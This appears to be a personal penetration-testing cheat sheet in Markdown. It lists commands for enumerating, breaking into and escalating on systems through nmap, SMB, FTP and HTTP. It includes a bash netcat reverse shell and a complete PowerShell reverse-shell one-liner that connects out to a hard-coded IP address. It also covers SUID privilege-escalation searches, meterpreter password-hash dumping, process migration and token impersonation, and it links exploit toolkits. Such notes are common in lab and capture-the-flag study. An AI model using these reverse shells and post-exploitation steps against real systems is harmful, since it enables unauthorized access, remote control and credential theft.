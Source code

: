 # Enumeration

Documenting different ways to uncover ways to gain intial access and exploiting them.

## Table of Contents

- [NMAP](#NMAP)
- [SMB](#SMB)
- [FTP](#FTP)
- [HTTP](#HTTP)

---------------------------------------------------------------------------

# NMAP

As an alternative you can use `rustscan -a <address>`

Normal scan: `nmap -vv -sV -Pn -A -T4 --script vuln <address>`
Long scan: `nmap -sV -Pn -A -T4 -p- <address>`

---------------------------------------------------------------------------

# SMB

## Initial Access

`smbmap -H <address>`
Check discovered directories in other places such as websites.
`smbclient -L <address> -U`
List all the directories in the share
Enumerate SMB via NMAP: `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <address>`

---------------------------------------------------------------------------

# FTP

## Initial Access

### Anonymous Login

`ftp <address>`
login: anonymous (no password required)

### NMAP Scripts

`nmap --script ftp-* -p 21 <address>`

## Brute Force

[ftp-betterdefaultpasslist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)

## Investigation

### Download all files

`wget -m ftp://anonymous:anonymous@<address>`
`wget -m --no-passive ftp://anonymous:anonymous@<address>`

---------------------------------------------------------------------------

# HTTP

## Initial Access

### Directory Discovery

GoBuster: `gobuster dirb --url=<address> --wordlist=<wordlist>`
After running go buster manually explore some interesting directories, such as robots.txt.

### Password Discovery

If you are having trouble brute-forcing a password for a blog, try creating a custom wordlist with cewl:
`cewl -d 3 -m 7 -w <wordlist to export> <http://address.com>`

### Reverse Shells

See [Reverse Shells](/exploitation/reverse_shells) for more information.

---------------------------------------------------------------------------

## Post-Exploitation

### Check Services and Ports
Running Ports: `ss -natu`
    `netstat -tulpn | grep LISTEN`
Forwarding ports through ssh: `ssh -L <local port>:<remote address>:<remote port> <username>@<address>`

### Python
#### Reverse Shell Upgrade
`python -c 'import pty; pty.spawn("/bin/bash")'`

#### Simple HTTP Server
If you need to get a file over to a compromised server with curl installed:
`python3 -m http.server`

### Shell
#### SUID search
`find / -user root -perm -4000 -exec ls -ldb {} \;`
`find / -perm -u=s -type f 2>/dev/null`
BEST: `find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000 2>/dev/null`

If you find a binary that matches this, you can try running with the `-p` flag which allows you to run a binary as the owner.

EXAMPLE USES:
nmap -i
find <folder> -exec <command> \;

## Sneaky Reverse Shell Bash
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f
```

#### Find writable directories
`find -type d -writable`

#### Windows Migration
get a meterpreter session and find a process running as SYSTEM: `ps`
safest choice is to choose `services.exe`
`migrate <process id>`

#### Windows Passwords
within meterpreter session: `hashdump`

#### Using Powershell
`load powershell` then `powershell_shell`

#### Windows Token Exploitation
powershell `whoami /priv`
msf `load incognito`
`list_tokens -g` then `impersonate_token <name of token>`

## Tools
A series of a userful links:
- [Nishang](https://github.com/samratashok/nishang.git): A series of useful Windows Exploit scripts
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) Same as above

### Powershell Reverse Shell
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.219.14',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

### Starting SMB Server
Navigate to folder to share

`python3 /usr/share/doc/impacket-scripts/examples/smbserver.py SHARE .`

### Starting FTP Server
Install `sudo apt-get install python3-pyftpdlib`

`python3 -m pyftpdlib -p 21`

Pull everything in a folder:
`wget -mbr --username="anonymous" --password="" "ftp://<address>/<folder>/*"

### Powershell

- Search for command with name: `Get-Command *search_parameter*`
- Get all Parameters for a command: `(Get-Command Command).Parameters`
- Search for a file: `Get-ChildItem -Path C:\ -Include *title* -File -Recurse -ErrorAction SilentlyContinue`
- Search for files containing string: `Get-ChildItem C:\* -Recurse | Select-String -pattern search_string`
- Get list of running processes: `Get-Process`

